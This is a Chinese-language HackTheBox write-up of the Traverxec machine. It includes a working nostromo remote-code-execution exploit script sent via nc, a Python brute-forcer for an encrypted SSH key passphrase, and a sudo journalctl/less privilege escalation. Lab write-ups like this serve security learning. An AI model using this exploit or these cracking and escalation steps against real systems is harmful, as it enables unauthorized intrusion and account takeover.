 HackTheBox 上面的一台简单的机器，这是自己第一台拿到权限的active机器，很兴奋

Happy Hacking


<!--more-->


## www-data

首先nmap扫描发现开了80和22端口

80端口运行着nostromo服务，并且存在着一个2019年的CVE

直接使用searchsploit搜索就可以找到

```bash
searchsploit nostromo
```

网上也可以搜相关的EXP

```bash
HOST="$1"
PORT="$2"
shift 2
（echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
echo "$@ 2>&1") | nc "$HOST" "$PORT"\
|sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```

运行的时候

``` bash
./exp.sh 10.10.10.165 80 ls /var/nostromo/
```

这样执行命令，之后就相当于获得到了www-data 的权限

下面需要提权

## david

在nostromo的文件夹下看到了一个配置文件夹，里面有nhttpd.conf

文件的内容如下：

```plain
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

具体nostromo有一些特性

在nostromo的man手册中有提到一点，其中的HOMEDIRS下的选项

有一个功能是可以直接在web中访问到home目录下的用户文件夹

可以看到配置文件中写道了可以直接访问`/home`目录

因此我们在浏览器中直接访问

```plain
http://10.10.10.165:80/~david/
```

实际上访问的目录就是`/home/david`

在终端中直接尝试查看这个目录下的内容是看不到的（没有读权限）

但是看到`homedirs_public`这个值，这个是任何用户都可以直接访问的

因此直接在终端中

```bash
./exp.sh 10.10.10.165 80 ls -la /home/david/public_www
```

在这里面可以找到一个`protected-file-area`

里面包含了一个`tar`压缩包

将这个压缩包解压，里面包含了一个`.ssh`, 内容为公私钥

解压这个包的时候使用的命令是

```bash
tar -xf XXXXX.tar -C /tmp
```

因为直接解压默认的目录是`/home`下，这个目录我们是没有权限去写的，因此使用`-C`可以指定目录

私钥的内容是加密过的，没有办法直接连接，需要首先破解passphrase

手动写一个脚本来爆破

```python
from subprocess import PIPE, Popen
import subprocess
import sys

def cmdline(command):
    proc = subprocess.Popen(str(command), stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    (out, err) = proc.communicate()
    return err

def main():
    words = [line.strip() for line in open('/usr/share/wordlists/rockyou.txt')]
    print("\n")
    count=0

    for w in words:
        strcmd = "openssl rsa -in ~/.ssh/id_rsa -out out.key -passin pass:"+w
        res=cmdline(strcmd)
        if res.startswith("writing"):
                print("\nThe key is: "+w)
                sys.exit()
        print(str(count)+"/"+str(w))
        count=count+1
    print("\n")

if __name__ == '__main__':
    main()
```

就是直接用python对字典中的词进行尝试，破解得到ssh私钥的pass为`hunter`

下面直接连接，即可获得david的权限

```bash
ssh david@10.10.10.165
```

其实也可以使用john来爆破key，首先使用ssh2john将其转换为john可以爆破的内容，之后直接用john和字典就可以

## root

首先做的事情就是查看david的目录下有没有比较有用的内容

发现david的目录下的结构

![david.jpg][1]

这个`bin`目录下的server-status.sh比较有趣

![server-stats.jpg][2]

运行这个脚本可以看到

![run.jpg][3]

发现最后一行是使用了`sudo`运行`journalctl`这个程序

但是却没有需要输入david的密码，因此如果可以获得这个程序本身的权限就可以得到root的权限了

我们仿照脚本里最后一行运行

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

这样也不需要输入密码，最后也是进入了`sudo`权限的`less`中

在`less`中可以类似`vim`那样使用`!`来执行外部的程序

![root1.jpg][4]

![root2.jpg][5]

done!



## 总结

总结一下这个靶机中学到的新知识

1.  nostromo 存在的漏洞
2.  nostromo存在一个可以直接用web访问到用户文件夹的特性
3.  journalctl、less的提权方法
4.  使用脚本爆破ssh加密key的方法


[1]: http://42.193.111.59/usr/uploads/2021/01/750280247.jpg#vwid=629&vhei=160
[2]: http://42.193.111.59/usr/uploads/2021/01/48883638.jpg#vwid=823&vhei=252
[3]: http://42.193.111.59/usr/uploads/2021/01/2842446307.jpg#vwid=1270&vhei=583
[4]: http://42.193.111.59/usr/uploads/2021/01/1170772748.jpg#vwid=1270&vhei=188
[5]: http://42.193.111.59/usr/uploads/2021/01/3180657420.jpg#vwid=1257&vhei=305